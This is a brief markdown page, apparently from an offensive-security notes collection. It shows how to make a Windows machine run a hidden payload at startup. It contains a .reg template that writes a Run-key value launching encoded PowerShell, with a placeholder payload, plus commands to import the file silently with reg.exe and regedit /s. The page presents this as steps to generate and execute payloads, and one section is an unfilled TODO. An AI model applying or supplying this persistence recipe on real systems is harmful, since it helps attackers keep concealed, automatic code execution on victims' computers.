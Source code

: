# Registry Entry

## 01 - Generate Payloads

TODO: Fill in this info

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
@=""
"<value_1>"="C:\\Windows\\System32\\cmd.exe /c powershell.exe -e <base64_encoded>"
"<value_n>"=""
```

## 02 - Execute Payloads

```
C:\> reg.exe import file.reg

C:\> regedit.exe /s file.reg
```
